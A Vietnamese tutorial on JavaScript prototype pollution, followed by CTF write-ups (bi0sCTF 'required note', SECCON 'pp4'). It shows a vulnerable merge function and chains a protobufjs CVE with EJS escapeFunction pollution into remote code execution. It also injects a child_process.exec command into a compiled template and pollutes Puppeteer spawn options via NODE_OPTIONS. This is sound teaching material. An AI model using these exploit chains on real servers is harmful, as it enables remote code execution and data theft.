## Object trong JavaScript

Object trong Javascript là một kiểu dữ liệu đặc biệt trong javascript, bao gồm các key:value, gọi là property. Value của object có thể lưu được nhiều kiểu dữ liệu, bao gồm cả một object khác hay function.


Có hai cách thông thường để truy cập đến các property của Object là Dot notation và Bracket Notation
- **Dot notation**: object.properti
- **Bracket notation**: object["proerti"]

### Object Prototypes
Mọi object trong JavaScript đều là instance của `Object` nên đều được kế thừa các built-in property và method từ `Object.prototype`, gọi là **prototype**. Nó là cơ chế của Javascript Object để kế thừa các tính năng của nhau.
Ví dụ như Object ở trên, dù không được khai báo trực tiếp, nhưng vẫn có thể truy cập được property và method như `constructor`, `toString()`, `valueOf()`,...

Ta có thể truy cập đến prototype của một object thông qua property `__proto__` hoặc `Object.getPrototypeOf()`

### Protoype chain
Javascript triển khai việc kế thừa dựa vào Object, mỗi Object đều có một liên kết đến những Object khác. Mỗi prototype có thể chứa prototype khác, gọi là **prototype chain**, nó có thể kế thừa cho đến final chain là null prototype. 

Khi chúng ta truy cập đến một property của Object, trước tiên sẽ kiểm tra các property hiện có của nó, nếu không có nó sẽ tìm kiếm tiếp trong prototype của nó, và cứ tiếp tục như thế cho đến khi tìm thấy hoặc đến null prototype.

Ta có đoạn code như sau, Object sẽ set property object = "Object" cho prototype, sau đó tạo thêm một object mới, có property `obj`. Và biến `test` từ Object `obj`


Khi ta truy cập `test.obj`, nó sẽ tìm các property của test, vì không có nên nó sẽ tìm trong prototype của test, và tìm thấy property `obj` của prototype là từ biến `obj`, nên kết quả sẽ là "Object".
Tương tự, khi ta truy cập `test.object`, nó sẽ tìm trong property của test, sau đó đến `obj`, cuối cùng tìm trong Object prototype, và tìm thấy property `object` là "Object".

## Prototype Pollution
### Sơ lược
Từ việc có thể gọi đến prototype của object, không chỉ access đến property của prototype, ta còn có thể cập nhật dữ liệu của prototype, như vậy thì tất cả các object khác kế thừa từ prototype đó sẽ bị ảnh hưởng theo.



Điều này dẫn đến Prototype Pollution, khi ta chỉnh sửa prototype của Object, các biến khác cũng sẽ bị, dẫn tới việc khi truy cập đến một property không tồn tại trong object hiện tại, nó sẽ tìm trong prototype và trả về một kết quả không mong muốn.

### Nguyên nhân
Nguyên nhân thường đến từ việc merge các object theo kiểu đệ quy và không kiểm tra kỹ càng dữ liệu đầu vào, hoặc từ việc parse dữ liệu từ nguồn không tin cậy.
```javascript
function merge(src, dst) {
    for (let key in src) {
        if (key in src && key in dst) {
            merge(dst[key], src[key]);
        } else {
            dst[key] = src[key];
        }
    }
    return dst;
}
```

## Challenge:
### bi0s/required note
:::info
Every CTF requires at least one overly complicated notes app.

[`📁 required_note.zip`](https://r3kapig-not1on.notion.site/bi0sCTF-2024-Jeopardy-2132609e35d74137935046fbcb62ff49)
> Author: Z_Pacifist
:::


- Website cho phép ta tạo ra các note và lưu trữ. Ngoài ra thì có thể customise các field với protobuf

- Có một note chứa flag được tạo sẵn với tên được generate từ hàm `Math.random()` bao gồm 16 kí tự [a-z0-9]

#### Overview
Khi tùy chỉnh settings, ta sẽ gửi POST request đến server

Hàm sau đó được xử lí như sau
```javascript 
app.post("/customise", (req, res) => {
  try {
    const { data } = req.body;
    let author = data.pop()["author"];
    let title = data.pop()["title"];

    let protoContents = fs
      .readFileSync("./settings.proto", "utf-8")
      .split("\n");

    if (author) {
      protoContents[5] = `  ${author} string author = 3 [default="user"];`;
    }

    if (title) {
      protoContents[3] = `  ${title} string title = 1 [default="user"];`;
    }

    fs.writeFileSync("./settings.proto", protoContents.join("\n"), "utf-8");

    return res.json({ Message: "Settings changed" });
  } catch (error) {
    console.error(error);
    res.status(500).json({ Message: "Internal server error" });
  }
});
```
Server sẽ lấy `author` và `title` dựa vào user input, ghi đè vào file `settings.proto`.
Trong khi server sẽ xử lí file protobuf thông qua thư viện [protobufjs](https://www.npmjs.com/package/protobufjs) nhưng lại không sử dụng latest version nên mình thấy khá sú.

Sau khi research thì mình phát hiện ra có [CVE](https://www.code-intelligence.com/blog/cve-protobufjs-prototype-pollution-cve-2023-36665) của version này liên quan tới **Prototype Pollution**.

Cụ thể, POST payload lên `/customise` để truyền payload vào file `settings.protobuf`, sau khi tạo một note mới, server sẽ parse từ file settings và bị Prototype pollution.


Như vậy thì ta có thể tận dụng Prototype Pollution để khai thác bài này.
#### Solution
##### RCE với EJS
Ejs v3.1.9 cũng có [vuln SSTI](https://github.com/mde/ejs/issues/735). Kiểm tra thử compile prototype thì thấy đa số các options đều có được `_JS_IDENTIFIER` test trước khi xử lí, trừ `escapeFn`

`escapeFn` lại được gán từ `opts.escapeFunction`

Vì đoạn code ban đầu không gán options `escapeFunction` nên ta có thể ghi đè vào đây với Prototype Pollution. `escapeFn` chỉ được thêm vào khi `opts.client` là truthy value. Ta chỉ cần tận dụng và gán cho nó giá trị true, escapeFn sẽ được thêm vào.
:::details eval code
Dòng 24 là dòng ta thêm vào cho `escapeFn` để có thể chạy code của mình. `escapeFn` cần có kiểu Function nên có thể cho nó bằng một function bất kỳ (`console.log`)
```javascript
rethrow = rethrow || function rethrow(err, str, flnm, lineno, esc) {
  var lines = str.split('\n');
  var start = Math.max(lineno - 3, 0);
  var end = Math.min(lines.length, lineno + 3);
  var filename = esc(flnm);
  // Error context
  var context = lines.slice(start, end).map(function (line, i){
    var curr = i + start + 1;
    return (curr == lineno ? ' >> ' : '    ')
      + curr
      + '| '
      + line;
  }).join('\n');

  // Alter exception message
  err.path = filename;
  err.message = (filename || 'ejs') + ':'
    + lineno + '\n'
    + context + '\n\n'
    + err.message;

  throw err;
};
escapeFn = escapeFn || console.log; process.mainModule.require('child_process').exec('tail -n +1 notes/* | grep bi0s > notes/flag.json');;
var __line = 1
  , __lines = "<!-- views/create.ejs -->\n<!DOCTYPE html>\n<html>\n<head>\n  <title>Create Note</title>\n  <style>\n    body {\n      background-color: #303030; /* Dark background color */\n      color: #ffffff; /* Text color */\n      font-family: 'Arial', sans-serif;\n      display: flex;\n      align-items: center;\n      justify-content: center;\n      height: 100vh;\n      margin: 0;\n    }\n\n    .card {\n      background-color: #444444; /* Card background color */\n      border-radius: 8px;\n      box-shadow: 0 4px 8px rgba(0, 0, 0, 0.2);\n      padding: 20px;\n      width: 400px;\n      box-sizing: border-box;\n    }\n\n    h1, h2 {\n      color: #ffffff; /* Heading text color */\n      text-align: center;\n    }\n\n    form {\n      max-width: 100%;\n      margin-top: 20px;\n    }\n\n    label {\n      color: #ffffff; /* Label text color */\n    }\n\n    input[type=\"text\"], textarea {\n      width: 100%;\n      padding: 10px;\n      margin: 8px 0;\n      box-sizing: border-box;\n      background-color: #333333; /* Input background color */\n      color: #ffffff; /* Input text color */\n      border: 1px solid #ffffff; /* Input border color */\n    }\n\n    input[type=\"button\"] {\n      background-color: #ffffff; /* Button background color */\n      color: #303030; /* Button text color */\n      padding: 10px 15px;\n      border: none;\n      cursor: pointer;\n      width: 100%;\n    }\n\n    input[type=\"button\"]:hover {\n      background-color: #555555; /* Button background color on hover */\n    }\n\n    #message {\n      color: #ff0000; /* Error message color */\n      margin-top: 10px;\n      text-align: center;\n    }\n\n    #noteList {\n      list-style-type: none;\n      padding: 0;\n    }\n\n    #noteList li {\n      margin-bottom: 8px;\n    }\n\n    #noteList a {\n      text-decoration: none;\n      color: #ffffff; /* Link text color */\n    }\n\n    #noteList a:hover {\n      text-decoration: underline;\n    }\n  </style>\n</head>\n<body>\n<div class=\"card\">\n  <h1>Create a New Note</h1>\n  <form id=\"noteForm\">\n    <label for=\"title\">Title:</label><br>\n    <input type=\"text\" id=\"title\" name=\"title\" required><br>\n    <label for=\"content\">Content:</label><br>\n    <textarea id=\"content\" name=\"content\" rows=\"4\" cols=\"50\" required></textarea><br><br>\n    <input type=\"button\" value=\"Create Note\" onclick=\"submitNote()\">\n  </form>\n\n<div id=\"message\" style=\"color: red;\"></div>\n\n<script>\nfunction addItemToList(item) {\n  const noteList = document.getElementById('noteList');\n  const listItem = document.createElement('li');\n\n  const link = document.createElement('a');\n  link.href = `/view/${item.Noteid}`; \n  link.textContent = item.Noteid; \n  listItem.appendChild(link);\n\n  noteList.appendChild(listItem);\n}\n\nfunction submitNote() {\n  const title = document.getElementById(\"title\").value;\n  const content = document.getElementById(\"content\").value;\n\n  const noteData = { title, content };\n\n  fetch(\"/create\", {\n    method: \"POST\",\n    headers: {\n      \"Content-Type\": \"application/json\",\n    },\n    body: JSON.stringify(noteData),\n  })\n    .then((response) => response.json())\n    .then((data) => {\n      if (data.Message) {\n        document.getElementById(\"message\").innerHTML = data.Message;\n        if (data.Noteid){\n          addItemToList(data);\n        }\n      } \n    })\n    .catch((error) => {\n      console.error(\"error:\", error);\n      document.getElementById(\"message\").innerText = 'Error';\n    });\n\n}\n</script>\n\n  <% if (Message) { %>\n    <p><%= Message %></p>\n  <% } %>\n  <h2>Created Notes:</h2>\n  <ul id=\"noteList\" style=\"text-align:center\">\n    <% for (const noteId of noteList) { %>\n      <li><a href=\"/view/<%= noteId %>\"><%= noteId %></a></li>\n    <% } %>\n  </ul>\n  </div>\n</body>\n</html>\n"
  , __filename = "/tmp/note/src/views/create.ejs";
try {
  var __output = "";
  function __append(s) { if (s !== undefined && s !== null) __output += s }
  with (locals || {}) {
    ; __append("<!-- views/create.ejs -->\n<!DOCTYPE html>\n<html>\n<head>\n  <title>Create Note</title>\n  <style>\n    body {\n      background-color: #303030; /* Dark background color */\n      color: #ffffff; /* Text color */\n      font-family: 'Arial', sans-serif;\n      display: flex;\n      align-items: center;\n      justify-content: center;\n      height: 100vh;\n      margin: 0;\n    }\n\n    .card {\n      background-color: #444444; /* Card background color */\n      border-radius: 8px;\n      box-shadow: 0 4px 8px rgba(0, 0, 0, 0.2);\n      padding: 20px;\n      width: 400px;\n      box-sizing: border-box;\n    }\n\n    h1, h2 {\n      color: #ffffff; /* Heading text color */\n      text-align: center;\n    }\n\n    form {\n      max-width: 100%;\n      margin-top: 20px;\n    }\n\n    label {\n      color: #ffffff; /* Label text color */\n    }\n\n    input[type=\"text\"], textarea {\n      width: 100%;\n      padding: 10px;\n      margin: 8px 0;\n      box-sizing: border-box;\n      background-color: #333333; /* Input background color */\n      color: #ffffff; /* Input text color */\n      border: 1px solid #ffffff; /* Input border color */\n    }\n\n    input[type=\"button\"] {\n      background-color: #ffffff; /* Button background color */\n      color: #303030; /* Button text color */\n      padding: 10px 15px;\n      border: none;\n      cursor: pointer;\n      width: 100%;\n    }\n\n    input[type=\"button\"]:hover {\n      background-color: #555555; /* Button background color on hover */\n    }\n\n    #message {\n      color: #ff0000; /* Error message color */\n      margin-top: 10px;\n      text-align: center;\n    }\n\n    #noteList {\n      list-style-type: none;\n      padding: 0;\n    }\n\n    #noteList li {\n      margin-bottom: 8px;\n    }\n\n    #noteList a {\n      text-decoration: none;\n      color: #ffffff; /* Link text color */\n    }\n\n    #noteList a:hover {\n      text-decoration: underline;\n    }\n  </style>\n</head>\n<body>\n<div class=\"card\">\n  <h1>Create a New Note</h1>\n  <form id=\"noteForm\">\n    <label for=\"title\">Title:</label><br>\n    <input type=\"text\" id=\"title\" name=\"title\" required><br>\n    <label for=\"content\">Content:</label><br>\n    <textarea id=\"content\" name=\"content\" rows=\"4\" cols=\"50\" required></textarea><br><br>\n    <input type=\"button\" value=\"Create Note\" onclick=\"submitNote()\">\n  </form>\n\n<div id=\"message\" style=\"color: red;\"></div>\n\n<script>\nfunction addItemToList(item) {\n  const noteList = document.getElementById('noteList');\n  const listItem = document.createElement('li');\n\n  const link = document.createElement('a');\n  link.href = `/view/${item.Noteid}`; \n  link.textContent = item.Noteid; \n  listItem.appendChild(link);\n\n  noteList.appendChild(listItem);\n}\n\nfunction submitNote() {\n  const title = document.getElementById(\"title\").value;\n  const content = document.getElementById(\"content\").value;\n\n  const noteData = { title, content };\n\n  fetch(\"/create\", {\n    method: \"POST\",\n    headers: {\n      \"Content-Type\": \"application/json\",\n    },\n    body: JSON.stringify(noteData),\n  })\n    .then((response) => response.json())\n    .then((data) => {\n      if (data.Message) {\n        document.getElementById(\"message\").innerHTML = data.Message;\n        if (data.Noteid){\n          addItemToList(data);\n        }\n      } \n    })\n    .catch((error) => {\n      console.error(\"error:\", error);\n      document.getElementById(\"message\").innerText = 'Error';\n    });\n\n}\n</script>\n\n  ")
    ; __line = 145
    ;  if (Message) { 
    ; __append("\n    <p>")
    ; __line = 146
    ; __append(escapeFn( Message ))
    ; __append("</p>\n  ")
    ; __line = 147
    ;  } 
    ; __append("\n  <h2>Created Notes:</h2>\n  <ul id=\"noteList\" style=\"text-align:center\">\n    ")
    ; __line = 150
    ;  for (const noteId of noteList) { 
    ; __append("\n      <li><a href=\"/view/")
    ; __line = 151
    ; __append(escapeFn( noteId ))
    ; __append("\">")
    ; __append(escapeFn( noteId ))
    ; __append("</a></li>\n    ")
    ; __line = 152
    ;  } 
    ; __append("\n  </ul>\n  </div>\n</body>\n</html>\n")
    ; __line = 157
  }
  return __output;
} catch (e) {
  rethrow(e, __lines, __filename, __line, escapeFn);
}
```
:::

Như vậy, sau khi xem một note bất kỳ hay GET đến `/create`, hàm `res.render()` sẽ được gọi và sử dụng EJS để render template, options prototype được truyền vào sẽ execute code của mình.

Trước tiên gán cho `opts.client` là truthy value. Tiếp tục gán cho `escapeFunction`. Vì có thể RCE, mình có có thể đọc tất cả các notes và tìm note có flag, sau đó tạo note mới chỉ chứa flag đó với tên cố định (`flag.json`).
Options của EJS đã được gán vào, giờ ta chỉ cần cho hàm `res.render()` chạy, file note mới với tên `flag.json` sẽ được sinh ra, view note đó và lấy flag 😙


##### RCE với Puppeteer
Khi GET `/healthcheck`, server sẽ chạy bot với Puppeteer, tạo một process mới, chạy browser headless và truy cập vào trang `/view/Healthcheck`. 

Khi Puppeteer launch browser mới, cũng đồng thời sử dụng `child_process.spawn()` với 3 args là `detached`, `env`, `stdio`.

Tuy nhiên hàm `spawn()` còn những options khác như `shell`, `argv0`, ta có thể pollute các attribute này để gọi shell chạy lệnh của mình.

Ta thử gán giá trị cho 2 options nói trên

Server sẽ chạy lệnh như sau `/bin/sh echo hehehe -c this.#executablePath this.#args`. Như vậy, ta có thể thay đổi `shell` thành `/proc/self/exe` -> `node` và RCE với `NODE_OPTIONS`


Đầu tiên gán giá trị cho `shell` thành `/proc/self/exe`, tiếp tục gán giá trị cho `argv0` là đoạn javascript cần execute. Cuối cùng là chỉnh `NODE_OPTIONS` là `--require /proc/self/cmdline` để chạy lệnh của mình.
Sau khi pollute các options thì GET đến `/healthcheck` để Puppeteer spawn process mới. Khi đó, command mình đưa vào sẽ được thực hiện, giờ chỉ cần mở `/view/flag` lấy flag

### seccon13/pp4
:::info
> Author: Ark
:::details Source
```js
#!/usr/local/bin/node
const readline = require("node:readline/promises");
const rl = readline.createInterface({
  input: process.stdin,
  output: process.stdout,
});

const clone = (target, result = {}) => {
  for (const [key, value] of Object.entries(target)) {
    if (value && typeof value == "object") {
      if (!(key in result)) result[key] = {};
      clone(value, result[key]);
    } else {
      result[key] = value;
    }
  }
  return result;
};

(async () => {
  // Step 1: Prototype Pollution
  const json = (await rl.question("Input JSON: ")).trim();
  console.log(clone(JSON.parse(json)));

  // Step 2: JSF**k with 4 characters
  const code = (await rl.question("Input code: ")).trim();
  if (new Set(code).size > 4) {
    console.log("Too many :(");
    return;
  }
  console.log(eval(code));
})().finally(() => rl.close());
```
:::

Bài yêu cầu người dùng nhập vào một JSON để pollute prototype và sau đó eval code với 4 kí tự. JSFuck bình thường cần sử dụng đến 6 kí tự nên ta cần phải tìm cách pollute được prototype nào đó để có thể chạy code bất kì chỉ với 4 kí tự. 

Chỉ nhập vào được 4 kí tự nên ta cần pollute code và sử dụng Object Function để chạy đoạn code đó.
```js:no-line-numbers
Function("code")()
```
Đoạn code trên sẽ tạo anonymous function sau đó execute function đó. Giờ ta cần chuyển qua jsfuck để có thể execute code.
JSFuck thông thường có 6 kí tự `[]()!+`, tuy nhiên trong này chỉ được 4 kí tự. Nên ta cần chọn ra 4 kí tự có thể sử dụng được trong bài này. Trước hết ta cần `()` để có thể invoke function. Hai kí tự còn lại có thể tận dụng được để làm nhiều thứ khác là `[]`.

`[]` là Array, các prototype của nó bao gồm những hàm thuộc object Function, như vậy ta cần tìm cách gọi đến một trong những prototype dưới đây để có được object Function

Sau khi có được đến Function bất kì, ta có thể truy cập đến `constructor` của nó để gọi được object Function


Vấn đề bây giờ là làm sao chỉ dựa vào 4 kí tự `[]()` để truy cập được `constructor`. `[]` là kí tự khá đặc biệt, không chỉ là Array mà còn là cách để truy cập một thuộc tính của object. Ta phải tìm cách pollute để có thể gọi đến string "constructor".
Khi sử dụng bracket notation, tên thuộc tính trước hết sẽ được chuyển qua String. Ví dụ với object `a`, khi truy cập đến một thuộc tính không tồn tại, sẽ trả về `undefined`, convert qua String sẽ thành chuỗi `"undefined"`. 
Như thế ta chỉ cần pollute `"undefined" = "constructor"`

Khi chuyển sang jsfuck, ta có thể cho Array truy cập đến một property rỗng
```js:no-line-numbers
> [][[]] = Array[""] = undefined
> [][[][[]]] = Array[Array[""]] = "constructor"
```
Như vậy, ta đã có được object Function. Bây giờ ta cần pollute để có thể lưu được đoạn code của mình vào.
Dựa vào payload ở trên. Khi ta sử dụng `[][[]]` là đang truy cập đến một property với chuỗi rỗng, ta có thể pollute  chuỗi này để chứa execute code
```js:no-line-numbers
> [][[]] = Array[""] = "console.log(123)"
```
Lúc này, ta cần phải chỉnh lại payload phía trên một tí để có thể ra được chuỗi `"constructor"` vì `Array[""]` lúc này không còn là undefined.
Cách sửa rất đơn giản là pollute `console.log(123)` về `"constructor"`.
```js:no-line-numbers
> Array[""] = "console.log(123)"
> Array["console.log(123)"] = "constructor"

> Array[Array[""]] = "constructor"
```
